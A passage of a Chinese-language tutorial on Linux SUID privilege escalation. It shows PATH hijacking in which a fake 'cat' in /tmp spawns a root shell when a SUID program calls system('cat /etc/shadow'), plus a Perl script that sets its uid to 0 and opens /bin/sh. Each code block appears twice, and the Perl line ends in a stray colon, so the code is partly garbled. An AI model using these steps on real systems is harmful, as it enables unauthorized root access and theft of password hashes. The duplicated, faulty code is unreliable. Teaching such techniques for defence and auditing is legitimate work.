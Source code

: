 ```
su test
./suid-exp
su test
./suid-exp
```

`![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7erNwBMUDm8luu5tpSEZNa43aRLAlTiav2QaOwYyPdQbbL8ejGjSf8iavarFGI5AhYmGPNaZtRicTolw/640?wx_fmt=png)`

`可以看到程序实际上已经提升到了root权限。`

`SUID程序经常存在提权漏洞，比如nmap就曾出现过提权漏洞。低权用户通过打开nmap交互模式以root执行任意系统命令。而除了借助程序功能提权，我们还可以尝试劫持环境变量提权。上文的c程序使用了system函数，system函数是继承环境变量的，因此我们通过替换环境变量可以达到执行任意命令的效果。`

`我们进入test低权用户的shell`

```
cat >> /tmp/cat <<EOF
#!/usr/bin/python
print "this is not the true cat"
print "here is a root shell!"
import pty;pty.spawn("/bin/sh")
EOF
# 这里我们在/tmp建立了假的cat，它会用python执行一个shell
PATH=/tmp:$PATH#设置PATH，优先从/tmp查找程序
./suid-exp#执行suid程序，因为PATH被劫持，system("cat /etc/shadow");会执行我们的假cat
cat >> /tmp/cat <<EOF
#!/usr/bin/python
print "this is not the true cat"
print "here is a root shell!"
import pty;pty.spawn("/bin/sh")
EOF
# 这里我们在/tmp建立了假的cat，它会用python执行一个shell
PATH=/tmp:$PATH#设置PATH，优先从/tmp查找程序
./suid-exp#执行suid程序，因为PATH被劫持，system("cat /etc/shadow");会执行我们的假cat
```

```
运行结果
```

`![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7erNwBMUDm8luu5tpSEZNa4belNSib0farEiapNJL66m3QhVdNficdeGx5rYutQUIwPLyoicjKCc4stRg/640?wx_fmt=png)`

`还有一种情况：管理员配置错误，把不带setuid(0);代码的程序配置了SUID。当这些程序被劫持的时候，我们需要自己的程序中使用setuid(0);来提权到root。这里有一个小技巧，我们用perl脚本来setuid：  
`

```
#!/usr/bin/perl
$< = $>;
$( = $) = 0;
system ("/bin/sh"):
#!/usr/bin/perl
$< = $>;
$( = $) = 0;
system ("/bin/sh"):
```
